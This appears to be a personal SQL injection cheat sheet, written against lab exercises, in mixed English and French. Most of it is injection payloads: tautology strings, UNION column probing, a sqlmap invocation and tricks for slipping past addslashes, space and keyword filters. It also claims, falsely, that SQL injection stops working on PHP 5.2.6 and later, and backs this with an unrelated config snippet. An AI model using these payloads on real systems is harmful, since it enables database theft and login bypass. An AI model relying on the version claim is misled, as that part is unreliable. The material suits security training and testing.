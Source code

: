# SQLi : SQL Injection


````sql
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
````
- Close the string : ' "
- Widen the request : or 1=1
- Add inputs with UNION
- Comment end of request : -- #

````
http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
http://12.0.0.11/sqli/example1.php?name=root' or '1'=1
http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
````

## SqlMap

Url: http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/
````
http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -

sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner
````

## Avoid simple filters
### Limit returned results
````
a' or 1=1 LIMIT 1 #
````

Replace Space by Tab %09 
````
username=admin%27%09or%091%3D1%09--%09&password=admin
````

Bypass php function ‘addslashes’ used to insert strings in mysql requests
Use Chinese charset %bf%27  to set a ' in proxy
````
username=a%bf%27+or+1=1+#&password=b
````

Filter sur AND ou OR, les remplacer par
````
AND :   &&   %26%26 
OR  :  || 
````
Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/
````
http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-
````
Filter with : mysql_real_escape_string
````
$iId = mysql_real_escape_string("1 OR 1=1");
http://12.0.0.11/sqli/example4.php?id=2 OR  1=1
````

### Note: PHP <=5.2.6
SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
````
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>
````



### Use Union
````
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2,3,4
````
Identify number of fields in select: here 1,2,3,4 doesn’t generate error
